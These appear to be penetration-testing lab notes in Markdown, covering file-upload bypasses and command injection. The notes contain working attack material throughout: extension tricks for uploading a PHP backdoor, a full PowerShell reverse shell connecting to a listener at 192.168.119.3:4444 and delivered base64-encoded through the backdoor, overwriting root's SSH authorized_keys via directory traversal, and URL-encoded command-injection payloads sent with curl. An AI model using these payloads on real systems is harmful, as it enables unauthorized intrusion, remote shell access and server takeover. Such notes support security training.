 ## File upload
### Change extension
`.php` -> `.phps`,`.php7`,  and `.phtml`
`.php` -> `.pHP`
### Executable File
Craft  `simple-backdoor.pHP` .Then Upload.
```sh
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir
```
**Create Windows reverse shell**
```bash
pwsh
```
Then
```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
Encode
```powershell
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```
Execute
```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG....
```
**Kali has web shell in `/usr/share/webshells`**
### Non-Executable File
File Upload + Directory traversal
Overwrite the **authorized_keys** file in the home directory for root
```bash
ssh-keygen
fileup
```

```bash
cat fileup.pub > authorized_keys
```
Then upload it to `../../../../../../../root/.ssh/authorized_keys`. Then connect.
```bash
rm ~/.ssh/known_hosts
ssh -p 2222 -i fileup root@mountaindesserts.com
```
## Command Injection
For **Git**: `git version%3B` to bypass, `%3b` is `;` 
In cmd, we can use `&` . In powershell and bash we can use `;` and `&&`.
`Handy snippet` - Check where our code is executed.(Check environment)
```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
Use `curl` to abuse Command injection.
```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.45.201:8000/archive
```
